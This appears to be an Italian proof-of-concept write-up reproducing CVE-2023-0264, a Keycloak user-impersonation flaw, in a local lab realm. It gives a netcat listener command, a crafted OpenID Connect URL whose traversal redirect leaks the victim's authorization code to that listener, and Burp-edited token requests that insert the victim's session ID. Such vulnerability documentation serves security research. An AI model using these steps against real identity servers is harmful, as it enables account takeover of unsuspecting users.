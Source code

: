 # CVE-2023-0264 User impersonation via stolen UUID code

- creazione di due utenti, `paola` e `mario` per esempio
- attivazione un listner `$ nc -lvnp 1234`
- autenticazione dell'utente `paola`, l'utente vittima, utilizzando il link descritto nella CVE precedente e qui di seguito riportato:

```shell
https://localhost:4200/realms/winted/protocol/openid-connect/auth?
client_id=winted-web&
redirect_uri=
https%3A%2F%2Flocalhost%3A4200%2Flogin%2f%252E%252E%2fvuln?
url=http%3A%2F%2Flocalhost%3A1234&
response_mode=fragment&
response_type=code
```

- cattura e conservazione del `session_state` perché servirà nei passaggi successivi. Questo parametro rappresenta il `session_id` dell'utente vittima, in questo caso l'utente `paola`. Si noti che la parte centrale del parametro `code` coincide con il `session_state` stesso. 

```shell
GET /?state=0a1aeed9-19ae-4f77-b59b-5e7bfe9c5bf6&
session_state=231fd8bc-2259-417b-9887-a4dcfb9c8f46&
code=d310bb8c-883c-477c-bff3-5e33922a9169.
231fd8bc-2259-417b-9887-a4dcfb9c8f46.
f4e96ce3-fdb3-412d-8ab3-264dd456e096
```
- si è effettuato il logout dell'utente `paola`
- si è verificato che non vi erano più nessun cookie salvato
- si è attivato Burp e si è attivato il proxy
- si è effettuato il login come `mario`, l'utente malevolo
- si è provveduto a forwardare tramite Burp tutte le richieste fino ad arrivare alla richiesta qui di seguito riportata:

```shell
POST /realms/winted/protocol/openid-connect/token HTTP/1.1
```

- in fine si è proceduto a modificare l'url inserendo il `session_state` della vittima catturato prima:

```shell
POST /realms/winted/protocol/openid-connect/token HTTP/1.1
...cut...
code=96a0d20a-0ca8-461f-bc3c-e8e50ef60d62.<SESSION_ID_VITTIMA>.f4e96ce3-fdb3-412d-8ab3-264dd456e096
```

- Il processo termina inviando la richiesta
